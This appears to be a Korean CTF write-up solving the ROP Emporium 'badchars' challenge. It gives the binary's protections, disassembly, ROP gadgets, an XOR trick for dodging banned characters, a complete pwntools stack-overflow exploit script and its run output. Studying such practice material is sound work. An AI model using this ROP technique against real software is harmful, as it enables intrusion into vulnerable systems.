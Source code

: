 # [badchars](https://ropemporium.com/challenge/badchars.html)
<br />

**Description:**
> An arbitrary write challenge with a twist; certain input characters get mangled as they make their way onto the stack.
Find a way to deal with this and craft your exploit.

<br />

**Binary Protections:**
```yaml
badchars: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6c79e265b17cf6845beca7e17d6d8ac2ecb27556, not stripped

[*] '/home/kali/pico/badchars'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />

> [!WARNING]
> ```text
> badchars are: 'x', 'g', 'a', '.'
> ```
> 문제에서는 특정 문자의 사용을 금지하고 있으며, `flag.txt`의 일부 문자열을 사용하지 못합니다.

<br />

해당 문제는 `xor`연산을 두 번 진행하면 원래 값으로 돌아오는 특성을 이용하여 규칙을 우회할 수 있습니다.

<br />

```yaml
$ objdump -d badchars
Disassembly of section .text:

0000000000400617 <usefulFunction>:
  400617:       55                      push   %rbp
  400618:       48 89 e5                mov    %rsp,%rbp
  40061b:       bf c4 06 40 00          mov    $0x4006c4,%edi
  400620:       e8 eb fe ff ff          call   400510 <print_file@plt>
  400625:       90                      nop
  400626:       5d                      pop    %rbp
  400627:       c3                      ret

0000000000400628 <usefulGadgets>:
  400628:       45 30 37                xor    %r14b,(%r15)
  40062b:       c3                      ret
  40062c:       45 00 37                add    %r14b,(%r15)
  40062f:       c3                      ret
  400630:       45 28 37                sub    %r14b,(%r15)
  400633:       c3                      ret
  400634:       4d 89 65 00             mov    %r12,0x0(%r13)
  400638:       c3                      ret
  400639:       0f 1f 80 00 00 00 00    nopl   0x0(%rax)
```
- `print_file@plt = 0x400510`
- `xor r15; r14 ; ret = 0x400628`
- `mov [r13] ; r12 ; ret = 0x400634`

```yaml
$ ROPgadget --binary badchars | grep "pop rdi"
0x00000000004006a3 : pop rdi ; ret
```
```yaml
$ ROPgadget --binary badchars | grep "pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret"
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```
```yaml
$ ROPgadget --binary badchars | grep "pop r14 ; pop r15 ; ret"
0x00000000004006a0 : pop r14 ; pop r15 ; ret
```
위 과정을 통해 필요한 가젯을 구할 수 있습니다. 이제 아래 순서를 참고하여 가젯들로 `rop`를 진행합니다.

<br />

> [!NOTE]
> 1. 규칙을 우회하기 위해 `"flag.txt"`를 `xor` 합니다. 
> 2. 연산된 값은 레지스터를 통해 `bss` 영역에 저장됩니다. (규칙 우회)
> 3. 저장된 값은 다시 `xor` 연산을 통해 문자열을 복원합니다. (`bss` 영역에는 `"flag.txt"`가 저장되어 있습니다.)
> 4. `"flag.txt"`를 `print_file`의 인자로 넘겨 호출합니다.

<br />
<br />

```python
from pwn import *

def xor(data):
    res = b""
    for ch in data:
        res += ((ch) ^ 2).to_bytes(1, "little")
    return res

context.log_level = "error"

p = process("./badchars")

# gadget
pop_rdi = 0x4006a3
xor_r15_r14 = 0x400628
pop_r14_r15 = 0x4006a0
mov_r13_r12 = 0x400634
pop_r12_r13_r14_r15 = 0x40069c

print_file = 0x400510
bss = 0x601038

flag = xor(b"flag.txt")
print("flag: ", flag)

payload = b'A' * 40

payload += p64(pop_r12_r13_r14_r15)
payload += flag + p64(bss) + p64(0) + p64(0)
payload += p64(mov_r13_r12) # [bss] = "dnce,vzv"

for i in range(8):
    payload += p64(pop_r14_r15)
    payload += p64(2) + p64(bss + i)
    payload += p64(xor_r15_r14) # [bss] = "flag.txt" 

payload += p64(pop_rdi)
payload += p64(bss)
payload += p64(print_file)

p.sendline(payload)
p.interactive()
```
```yaml
$ python3 test.py
b'flag: ' b'dnce,vzv'
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```
